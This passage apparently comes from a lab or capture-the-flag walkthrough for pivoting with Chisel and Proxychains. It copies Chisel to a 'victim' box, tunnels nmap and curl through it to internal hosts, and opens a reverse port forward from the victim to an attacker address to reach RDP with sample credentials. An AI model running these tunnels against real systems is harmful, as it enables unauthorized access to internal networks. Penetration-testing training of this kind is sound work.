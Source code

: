 1. To transfer the downloaded chisel to the victim box use `scp`:

<img width="958" height="132" alt="image" src="https://github.com/user-attachments/assets/2efcb11c-6c89-478e-9ea1-cd2cb7935c8f" />

2. On the Victims box -  1) make the Chisel binary executable 2) start the service

<img width="1319" height="263" alt="image" src="https://github.com/user-attachments/assets/0c6156e6-ab49-4653-bd0f-c1d8a50b0967" />

3. Configure Proxychains (On Attack Box) by editing the `/etc/proxychains.conf` with the following lines at the bottom:

<img width="952" height="195" alt="image" src="https://github.com/user-attachments/assets/df116adf-bb91-4b8c-9402-b56fe287e802" />

4. Start Chisel Server (On Attacker Machine)
 
<img width="1324" height="355" alt="image" src="https://github.com/user-attachments/assets/c2b5da84-ba09-4533-9301-9e80cd0ca736" />

RESULTS SHOULD LOOK SOMETHING LIKE THIS TO BE SUCCESSFUL:

ATTACKER MACHINE
<img width="1162" height="271" alt="image" src="https://github.com/user-attachments/assets/41b3f400-ed2e-4ed3-b582-a677ccadb033" />
VICTIM MACHINE
<img width="1907" height="596" alt="image" src="https://github.com/user-attachments/assets/4d7d6df4-8b9e-4d41-89f0-f8ea0e8eb10e" />

5. Use Proxychains to Access Internal Targets

Example:  `proxychains nmap -Pn -p3389 172.16.5.19`

Example:  `proxychains curl http://172.16.5.10/`

(Make sure to append `proxychains`) 

In our example challenge we need to remote into the internal target. 
This will be done as so: 


<img width="1922" height="742" alt="image" src="https://github.com/user-attachments/assets/d9a8e19b-9c53-486a-b29c-ebb61de3243a" />

## Further Help 

OPTIONAL:  Reverse Port Forward (Static Port Tunnels)

```
# Forward victim port 3389 (RDP) to attacker port 3389
# Attacker (Server)
./chisel server -p 9002 --reverse

# Victim (Client)
./chisel client 10.10.14.42:9002 R:3389:127.0.0.1:3389
```
Then you can: 

```
xfreerdp /v:127.0.0.1 /u:admin /p:password123
```

